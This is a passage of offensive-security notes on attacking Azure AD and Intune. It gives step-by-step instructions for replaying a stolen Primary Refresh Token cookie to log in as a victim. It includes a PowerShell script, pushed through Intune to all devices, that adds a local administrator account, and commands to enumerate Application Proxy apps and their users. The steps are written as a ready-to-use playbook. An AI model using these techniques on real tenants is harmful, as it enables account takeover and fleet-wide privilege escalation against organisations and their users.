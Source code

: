 * Open the Browser in Incognito mode

* Go to <https://login.microsoftonline.com/login.srf>
* Press F12 (Chrome dev tools) -> Application -> Cookies
* Clear all cookies and then add one named `x-ms-RefreshTokenCredential` for <https://login.microsoftonline.com> and set its value to that retrieved from AADInternals
* Mark HTTPOnly and Secure for the cookie
* Visit <https://login.microsoftonline.com/login.srf> again and we will get access as the user!
* Can now also access portal.azure.com

## Intune

* a user with Global Administrator or Intune Administrator role can execute PowerShell scripts on an enrolled Windows device. The script runs with privileges of SYSTEM on the device.

* If user had Intune Administrator role go to <https://endpoint.microsoft.com/#home> and login (or from a ticket (PRT)
* Go to Devices -> All Devices to check devices enrolled to Intune:
* Go to Scripts and Click on Add for Windows 10. Create a new script and select a script
* Example script adduser.ps1

```powershell
$passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
New-LocalUser -Name <USERNAME> -Password $passwd
Add-LocalGroupMember -Group Administrators -Member <USERNAME>
```

* Select `Run script in 64 bit PowerShell Host`
* On the assignment page select "Add all users" and "add all devices"

## Application proxy abuse

* The application behind the proxy may have vulnerabilities to access the on-prem environment.

### Todo if application proxy is available

#### Enumerate application which has a application proxy configured

```powershell
Import-Module .\AzureAD.psd1
Get-AzureADApplication | %{try{Get-AzureADApplicationProxyApplication -ObjectId $_.ObjectID;$_.DisplayName;$_.ObjectID}catch{}}
```

#### Get the Service Principal (use the application name)

```powershell
Get-AzureADServicePrincipal -All $true | ?{$_.DisplayName -eq "<APPLICATION NAME>"} 
```

#### Find user and groups assigned to the application

```powershell
. .\Get-ApplicationProxyAssignedUsersAndGroups.ps1
Get-ApplicationProxyAssignedUsersAndGroups -ObjectId <OBJECT ID OF SERVICE PRINCIPAL>
```
